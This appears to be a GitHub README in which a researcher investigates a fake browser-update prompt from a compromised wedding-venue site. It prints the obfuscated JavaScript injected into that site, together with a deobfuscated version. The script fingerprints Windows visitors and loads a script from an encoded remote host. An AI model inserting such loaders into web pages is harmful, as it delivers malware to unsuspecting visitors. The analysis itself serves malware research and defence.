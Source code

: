 # UltimateUpdate
I was on a site browsing for wedding venues in Virginia (👀), and after scrolling down a page listing venues in Vienna, my entire screen changed to one of the typical "Your {Internet Browser} is out of date. Click here to update!". Curiosity got the best of me, I clicked the link, and this created a mini-investigation of some interesting malware!

I thought it was pretty odd that I was served this ad in the first place, since I have uBlock Origin, which is pretty good at preventing these sorts of ads. Because I have no respect for my computer, I decided to YOLO it and click the "Download Update!" button. It downloaded a ZIP file named `Firefοx.106.63418.18456.9503fcf0.zip` from a JavaScript Blob (URL: `blob:null/06285e4d-82c0-4901-b6c3-f7d713a410a3`). This means I won't be able to re-download it, and unfortunately I navigated away from the page so I don't have the original.

I repackaged the zip file into a 7Zip in this [repo](https://github.com/CuckooEXE/UltimateUpdate) with the password `infected`.

## Hunt for the Original
First thing I want to do for this "investigation" is to see what the original payload is. That way I can see the logic in targetting, or if there are any other payloads. I went back through my browsing history to see if I could eventually find it, and on the page `hxxps[://]www[.]weddingrule[.]com/wedding-venues/virginia/north-va/` I see that it loads a Blob:

```javascript
;(function(){var dq=document.referrer;var ad=window.location.href;var xw=navigator.userAgent;var ej=new RegExp(vz('p:p/z/j(a[c^y/t]c+x)y/x'));if(!dq||ad.match(ej)[1]==dq.match(ej)[1]||xw.indexOf(vz('xWvitnadrobwbsr'))==-1||window.localStorage[vz('k_m_h_suetemmal')]){return;}var kf=vz('usvcxrqizpktc');var ox=document.createElement(kf);ox.async=true;ox.src=vz('shntitiphss:r/j/jtjraajirnyibnngg.acq1nygpvsjiklhadnbtjie.conrugt/xroeipmodrstt?rrv=cdnjs0k1mMlDjYf1pNkDkgz3sMpTzInwfZpTkUj2aZxmyQx1kZhTgZllvNeCuZajwatWgQp9bMajkYf0u');var fq=document.getElementsByTagName(kf)[0];fq.parentNode.insertBefore(ox,fq);function vz(wm){var yo='';for(var ud=0;ud<wm.length;ud++){if(ud%2){yo+=wm[ud];}}return yo;}})();
```

Which, running it through a [deobfuscator](https://deobfuscate.io/), turns into:

```javascript
;
(function () {
  var dq = document.referrer;
  var ad = window.location.href;
  var xw = navigator.userAgent;
  var ej = new RegExp(vz("p:p/z/j(a[c^y/t]c+x)y/x"));
  if (!dq || ad.match(ej)[1] == dq.match(ej)[1] || xw.indexOf(vz("xWvitnadrobwbsr")) == -1 || window.localStorage[vz("k_m_h_suetemmal")]) {
    return;
  }
  var kf = vz("usvcxrqizpktc");
  var ox = document.createElement(kf);
  ox.async = true;
  ox.src = vz("shntitiphss:r/j/jtjraajirnyibnngg.acq1nygpvsjiklhadnbtjie.conrugt/xroeipmodrstt?rrv=cdnjs0k1mMlDjYf1pNkDkgz3sMpTzInwfZpTkUj2aZxmyQx1kZhTgZllvNeCuZajwatWgQp9bMajkYf0u");
  var fq = document.getElementsByTagName(kf)[0];
  fq.parentNode.insertBefore(ox, fq);
  function vz(wm) {
    var yo = "";
    for (var ud = 0; ud < wm.length; ud++) {
      if (ud % 2) {
        yo += wm[ud];
      }
    }
    return yo;
  }
}());
```
